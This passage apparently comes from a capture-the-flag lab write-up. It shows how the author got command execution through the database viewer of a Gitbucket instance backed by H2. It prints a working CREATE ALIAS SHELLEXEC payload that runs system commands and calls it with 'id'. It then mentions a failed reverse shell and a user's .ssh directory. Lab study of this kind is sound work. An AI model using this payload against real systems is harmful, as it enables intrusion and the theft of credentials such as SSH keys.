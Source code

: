 <br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240916200247.png" alt="1" style="width:700px; height:auto;">
<br/>

All the `endpoint` in the `firewall` directory is redirected to a single point and it is the `/` directory. Will keep that in mind and look at that later.  

Checking `Gitbucket` on `port 8080`  

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240917213139.png" alt="1" style="width:700px; height:auto;">
<br/>

After clicking on `System Administration/Database viewer` 

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240917213211.png" alt="1" style="width:700px; height:auto;">
<br/>

We can see a `terminal` where we can write `SQL` queries to be executed.  
Testing for the service by giving it an arbitrary value, a service name was exposed. 

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240917213324.png" alt="1" style="width:700px; height:auto;">
<br/>

`H2 database`.  
Looking for exploits, found this [link](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html) a `SQL injection` can be abused.  
By using this code 

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240917214740.png" alt="1" style="width:700px; height:auto;">
<br/>

We can create an Alias that can execute `System commands` and we can call it by using this.

```java
CALL SHELLEXEC('id')
```

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240917214818.png" alt="1" style="width:700px; height:auto;">
<br/>

Trying to pop out a `reverse shell` but it could not be possible.   
Reading the `/home/margo` directory, a `.ssh` directory was discovered 

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240917214909.png" alt="1" style="width:700px; height:auto;">
<br/>
